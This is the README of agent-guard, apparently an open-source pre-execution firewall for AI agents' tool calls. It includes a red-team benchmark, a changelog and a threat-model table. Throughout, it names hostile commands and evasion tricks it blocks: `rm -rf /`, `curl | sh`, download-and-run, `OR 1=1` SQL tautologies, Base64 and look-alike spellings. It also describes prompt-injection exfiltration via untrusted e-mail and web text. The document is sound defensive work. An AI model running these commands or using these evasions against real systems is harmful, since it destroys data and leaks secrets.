

# agent-guard

**Deterministic pre-execution security firewall for autonomous AI agents.**

Prompts can be argued with. Code cannot. `agent-guard` sits in front of an agent's tool calls as a
`PreToolUse` hook and enforces its limits in plain Python, so a hostile web page, e-mail or file cannot talk its
way past a rule. No model is consulted, no network is touched, there are zero third-party dependencies, and a
decision takes about 0.2 ms.

```bash
python -m agent_guard --benchmark   # red-team suite: 50 hostile calls over 6 vectors + 40 benign, p50/p95/p99
python -m agent_guard --demo        # quick replay: 20 hostile + 18 benign
pytest -q                           # 258 tests
```

## v1.1.1 red-team benchmark

50 hostile calls across six attack vectors and 40 realistic engineering and ops calls (npm, make, docker,
kubectl, git, jq, JOIN reports, scoped DELETE/UPDATE, Basic-auth headers, accented, Greek and Cyrillic text),
replayed 200 rounds through the real guard (18,000 timed decisions, one Windows 11 desktop, Python 3.12):

```text
VECTOR                 BLOCKED
injection-exfil            8/8
destructive-sql          10/10
dangerous-shell            9/9
credential-theft           7/7
encoding-evasion         10/10
scope-escape               6/6

true positives  : 50/50 (100.0%) blocked for the expected reason
false positives : 0/40 (0.0%) benign calls blocked
latency         : p50 167 us | p95 315 us | p99 430 us per decision
RESULT          : ALL PASS
```

A hostile call counts only if it is blocked *by the rule meant to catch it*; blocked for a lucky side reason is a
miss. Latency varies by machine and load: five runs of v1.1.1 on the machine above ranged p50 167 to 193 us and p99 430 to 467 us,
always under 0.5 ms. Every payload is
synthetic (reserved example domains, a documented example key shape assembled at run time).

### What changed in v1.1.1

An independent review probed v1.1 and found real gaps. Each probe is now a test.

- **Tautologies at any depth.** The WHERE judge used to split OR only at the top level and then strip parentheses,
  so `WHERE (1=1 OR id=5)` and `WHERE id=5 AND (status='x' OR 1=1)` passed. It is now a recursive evaluator over
  OR, AND, NOT and grouping parentheses, and it knows more always-true forms: `2 > 1`, `1+1=2`, `'a' LIKE 'a'`,
  `u.id = u.id`, `1 IN (1)`, `1 NOT IN (2)`, `NULL IS NULL`, `TRUE IS TRUE`, `1 BETWEEN 0 AND 2`. An `OR` branch
  that is always true is blocked even inside a group an outer `AND` narrows: that is the `OR 1=1` injection
  signature, and no hand-written filter needs one.
- **SQL behind a preamble.** Base64-hidden SQL is recognised behind leading `/* */`, `--` or `#` comments and
  `BEGIN;`, `START TRANSACTION;`, `SET ROLE ...;` or `USE db;`.
- **Shell.** `perl -e` / `perl -le` and `ruby -e` one-liners that unlink, `rm_rf`, `File.delete` or shell out
  (`system "..."`, backticks, `%x(...)`) block like `python -c` ones. `git push --force-with-lease` blocks when it
  targets a protected branch (`main`, `master`, `trunk`, `develop`, `prod`, `release/*` and similar) or names no
  branch at all; `--force-with-lease origin feat` still passes. A file fetched with `curl -o`, `curl -O`, `wget`,
  `-OutFile` or a `>` redirect and then run (`./x.sh`, `sh x.sh`, `python3 x.py`) blocks as
  `shell-download-exec`.
- **False positives removed.** `git restore --staged .` only unstages and passes (`--worktree` or no `--staged`
  still blocks). A host written wholly in one non-Latin script (`пример.рф`) is an ordinary IDN and passes; a
  label that mixes scripts or folds wholly to ASCII (`раураl.com`, fullwidth letters) is still refused. A Base64
  payload that trips several rules now yields one `evasion-base64-payload` finding naming them all, and a
  decision never lists the same rule id twice.

### What changed in v1.1

- **SQL tautology tokenizer fix.** The sanitiser turns every string literal into a placeholder, and the tokenizer
  used to split that placeholder into three tokens, so `DELETE FROM t WHERE 'a'='a'` passed. Placeholders are now
  single tokens: `'a'='a'`, `'a' = 'a' OR id=5`, `"a"="a"`, backtick identifiers, `WHERE /**/ 'a'='a'`, `2>1`,
  `1<>2` and `WHERE 7` all block, while `WHERE id = 5 AND status = 'active'` and `WHERE name = 'bob'` still pass.
  Comparing two literals is judged conservatively: `'a'='b'` also blocks (fail-closed).
- **Evasion normalisation (`normalize.py`).** Before any rule runs, zero-width and bidi characters and the BOM are
  stripped, NFKC folds fullwidth letters, and Cyrillic/Greek look-alikes map to ASCII, so `r<ZWSP>m -rf /`,
  `ｒｍ -rf /` and `DRΟP TABLE` are judged as what they mean. A word mixing ASCII with look-alike letters, or a host
  that only reads as allowlisted after folding (`api.exаmple.com`), is refused outright. Pure Greek or Cyrillic
  words are ordinary language and pass.
- **Base64 inspection.** Blobs handed to `base64 -d`, `atob(...)`, `b64decode(...)`, `FromBase64String(...)` or
  `powershell -EncodedCommand` (UTF-16LE), and any readable 16+ character blob, are decoded up to two layers deep
  and judged by the same shell, SQL and secret rules (`evasion-base64-payload`). Decoding never executes anything;
  a harmless decode (`echo aGVsbG8gd29ybGQ= | base64 -d`) still passes.
- **`--benchmark`** with per-vector block rates, false-positive rate and p50/p95/p99 latency.

## Threat-model boundary

What a deterministic pre-execution guard can and cannot promise. The left column runs in under 0.5 ms with no
model; the right column needs architecture, not a smarter filter.

| Caught deterministically, before the tool runs | Not caught here: needs tool scoping and isolation |
|---|---|
| A call whose **text** is destructive: `DROP`, unscoped or tautological `DELETE`/`UPDATE`, `rm -rf /`, `curl \| sh`, force-push, disk writes | A call that is **valid but wrong**: `DELETE FROM orders WHERE id = 42` on the wrong id, a well-formed refund to the wrong customer |
| Egress to a host or recipient **off the allowlist**, or one that **untrusted text named** | Data leaked **to an allowlisted destination** in a form no rule recognises (paraphrased, summarised, split across calls) |
| Secrets in a payload by **known shape** or **live environment value**, plain or Base64-wrapped | Secrets in an unknown format, or re-encoded with a scheme other than Base64 (hex, ROT13, custom XOR) |
| **Spelling tricks**: zero-width characters, fullwidth and Cyrillic/Greek look-alikes, Base64 up to two layers | Code that **builds** the payload at run time (`"r"+"m"`, string reversal, a downloaded script that is clean today and hostile tomorrow) |
| Paths outside the agent's **read/write roots**, credential files, traversal | Symlinks and race conditions on the real filesystem (checks are string-based by design: same verdict on every machine) |
| Tools **not granted** to the agent at all | **Multi-turn persuasion**: an agent talked, over several harmless-looking steps, into a goal the policy allows each step of |

The guarantee is narrow and testable: whatever a model is persuaded to want, a call the policy forbids does not
run. Defending the right column means giving each agent the fewest tools, the narrowest roots and allowlists, and
an OS-level sandbox; agent-guard is the layer that makes those limits hold at call time.

## What it stops

| Threat | How it is stopped (deterministically) |
|---|---|
| **Prompt-injection exfiltration** from untrusted web / e-mail text | Session **taint**: after the agent reads untrusted text, outbound actions are allowlist-only, `cc`/`bcc` and fan-out are refused, and any address or host that *the untrusted text itself named* is refused by name. Hidden HTML, zero-width characters and image beacons are stripped or blocked. |
| **Destructive SQL** | `DROP`, `TRUNCATE`, `DELETE`/`UPDATE` with no `WHERE` or with an always-true one (`1=1`, `'a'='a'`, `"a"="a"`, `2>1`, `OR true`, `IS NOT NULL`), stacked statements, `MERGE`, file/exec escape hatches. Comment and string-escape dialect ambiguities are judged under every reading; any destructive reading blocks. |
| **Dangerous shell** | `rm -rf` of protected or out-of-scope targets, `curl \| sh`, force-push, `reset --hard`, disk writes, `sudo`, container escapes, fork bombs, recursive `chmod`, bulk infrastructure deletes. Nested payloads (`bash -c`, `eval`, `ssh host CMD`, `$(...)`, `find -exec`) are parsed recursively. |
| **Credential and secret theft** | Reads of key files, `.env`, cloud credential directories; environment dumps; `$SECRET_TOKEN` references; known key shapes and live secret environment values in any outbound payload. |
| **Unsafe multi-line heredocs** | Body fed to an interpreter (`python3 - <<EOF`, `bash <<EOF`, `ssh host <<EOF`), body written to an executable script or a startup/scheduler/key-trust file, unterminated heredocs. Bodies fed to a database client are handed to the SQL firewall; safe shapes (`git commit -m "$(cat <<'EOF' ...)"`, notes files) pass. |
| **Encoding and spelling evasion** | Zero-width/bidi characters stripped, NFKC plus Cyrillic/Greek look-alike folding before every rule; mixed-script words and look-alike hosts refused; Base64 (including PowerShell `-EncodedCommand`) decoded two layers deep and judged by the same rules. |
| **Scope creep** | Per-agent **tool allowlists**, read/write **path roots** (traversal-proof, no filesystem access), host and recipient allowlists, outbound caps. |

## Architecture



The guard **fails closed**: an exception inside the guard denies the call (`--fail-open` flips it).

## Wire it up

```json
{
  "hooks": {
    "PreToolUse":  [{ "matcher": "*", "hooks": [{ "type": "command", "command": "python -m agent_guard hook --policy policy.json" }] }],
    "PostToolUse": [{ "matcher": "*", "hooks": [{ "type": "command", "command": "python -m agent_guard hook --policy policy.json" }] }]
  }
}
```

The hook reads the tool call as JSON on stdin and prints a deny decision on stdout only when a rule fires. Set
`AGENT_GUARD_AGENT` (or pass `agent_name` in the payload) to pick the per-agent policy, `AGENT_GUARD_REPLY_TO` to
name the one address a reply may go to, `AGENT_GUARD_STATE` / `AGENT_GUARD_LOG` to move state and the audit log.

Or use it as a library:

```python
from agent_guard import Guard, Policy, Session

guard = Guard(Policy.load("policy.json"))
session = Session("run-1", reply_to="customer@example.org")
session.ingest(email_body, source="email")          # taint: this text is untrusted
decision = guard.check("support-agent", "send_email", {"to": "x@evil.example", "body": "..."}, session)
if not decision:
    print(decision.rule, decision.reason)           # exfil-attacker-destination ...
```

## Policy

Plain JSON (`python -m agent_guard policy > policy.json` prints a working example). Unknown keys are rejected at
load time so a typo cannot silently weaken a rule.

```json
{
  "defaults":  { "write_roots": ["/workspace"], "allowed_hosts": ["api.example.com"], "allowed_recipients": ["*@example.com"] },
  "agents": {
    "analyst-agent": { "allowed_tools": ["Read", "Grep", "execute_sql"], "sql_mode": "read_only" }
  }
}
```

## Honest limits

- It judges *what a call would do*, from its text. It does not sandbox: pair it with OS-level isolation.
- Path checks are string-based (no symlink resolution) so verdicts are identical on every machine.
- A model that reads untrusted text can still be *persuaded*; the guarantee is that persuasion cannot reach a
  destination, file, command or statement the policy forbids.
- The 90-call benchmark is the author's own corpus. It proves the rules do what they claim; it is not an outside
  red-team. Bypasses are welcome as issues: each confirmed one becomes a benchmark case and a test.
- Rules are conservative on purpose. A blocked benign call is cheap (add the host to the allowlist); an allowed
  hostile one is not.
- **The exact WHERE policy.** A `DELETE` or `UPDATE` is blocked when its WHERE is always true at any depth, or
  when any `OR` group inside it has a constant-true branch (`id=5 AND (x OR 1=1)`). `col IS NOT NULL` counts as
  true only when it stands alone as the whole WHERE or as one whole `OR` branch of it (`WHERE user_id IS NOT NULL`
  reaches every row that has a value, so it blocks); joined by `AND` to a real filter (`WHERE user_id IS NOT NULL
  AND created_at < '2026-01-01'`) or used as one test inside an `OR` group beside a real column test, it passes. A
  constant joined by `AND` (`WHERE 1=1 AND id = 5`, the query-builder prefix) passes. String literals are compared
  by shape, not value, so `'a' = 'b'` also blocks (a no-op delete, refused fail-closed).
- The WHERE judge reads the statement text only. It does not know a column's real values, so a filter that is
  *effectively* every row (`WHERE created_at > '1900-01-01'`, `WHERE id > 0`) passes, as does arithmetic on
  columns (`WHERE id = id + 0`) and functions (`WHERE COALESCE(1, 0) = 1`).

## Layout

```text
agent_guard/   guard.py (orchestrator)  normalize.py (evasion)  sqlguard.py  shellguard.py  heredoc.py  exfil.py
               injection.py  session.py (taint)  policy.py  paths.py  secrets.py  hook.py  audit.py
               replay.py (--demo)  benchmark.py (--benchmark)  cli.py
test_agent_guard.py
policy.example.json
```

MIT-licensed; see `LICENSE`.
